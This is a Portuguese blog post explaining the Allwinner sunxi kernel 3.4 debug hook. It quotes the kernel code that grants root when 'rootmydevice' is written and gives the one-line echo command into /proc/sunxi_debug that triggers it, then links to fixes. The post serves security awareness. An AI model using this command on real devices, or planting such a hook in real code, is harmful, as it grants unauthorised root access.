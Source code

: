 ```yaml
---
layout: post
title: "Allwinner e seu código de debug"
tags: Debug, segurança, noob, kernel, allwinner, backdoor, teste
---
```


Sabe aqueles códigos que inserimos nos projetos apenas para debug? Aqueles que você coloca temporariamente para ficar mais fácil testar algumas funções, para conseguir fazer algumas coisas de maneira mais rápida e testar. Pois então, o **grande** problema é quando esquecemos de apagar esses códigos e eles vão para produção.

Isso pode acontecer com todo mundo, apesar de ser nada legal. Veja o que o pessoal do desenvolvimento do kernel da [Allwinner](http://www.allwinnertech.com/), fabicante chinesa de processadores, [fez](https://github.com/allwinner-zh/linux-3.4-sunxi/blob/bd5637f7297c6abf78f93b31fc1dd33f2c1a9f76/arch/arm/mach-sunxi/sunxi-debug.c#L41).

<!-- more -->

```C
	if(!strncmp("rootmydevice",(char*)buf,12)){
		cred = (struct cred *)__task_cred(current);
		cred->uid = 0;
		cred->gid = 0;
		cred->suid = 0;
		cred->euid = 0;
		cred->euid = 0;
		cred->egid = 0;
		cred->fsuid = 0;
		cred->fsgid = 0;
		printk("now you are root\n");
	}
```

Isso permite que qualquer usuário em qualquer processo se torne root do dispositivo. <Insira uma cara de espanto aqui>

Os processadores da Allwinner estão presentes em TVs, e-readers, tablets, e nos famosos [Banana Pi](http://www.bananapi.org/p/product.html) e [Orange Pi](http://www.orangepi.org/).

Segundo algumas notícias [1](http://www.theregister.co.uk/2016/05/09/allwinners_allloser_custom_kernel_has_a_nasty_root_backdoor/) e [2](https://forum.armbian.com/index.php/topic/1108-security-alert-for-allwinner-sun8i-h3a83th8/), para acessar esse "backdoor" e se tranformar em <s>super</s> **root** simplesmente digite:

```bash
echo "rootmydevice" > /proc/sunxi_debug/sunxi_debug
```

Tchãran. *"now you are root\n"*

Como não tenho nenhum dispositivo com allwinner não consegui testar =(.

IMHO, não creio que este é um backdoor ou algo que foi colocado propositalmente. Pois não é algo escondido no código. pelo contrário, está muito visível. E só funciona em algumas versões dos processadores
(H3, A83T ou H8) e ainda apenas na versão de kernel 3.4.

Acredito que este problema ocorreu devido a falta de atenção dos desenvolvedores. É uma prática normal inserir estes tipos de códigos durante o desenvolvimento, mas não <s>é normal</s> deixá-los nas versões de liberação, pelo menos não de maneira **tão** explicita.

[Correções](https://github.com/friendlyarm/h3_lichee/commit/5d4d02b1c8f336ba002eed4d97dee3a51ea76cdd) estão surgindo para resolver este problema. Afinal, isso é extremamente necessário! Caso contrário, o dispositivo é altamente vulnerável.
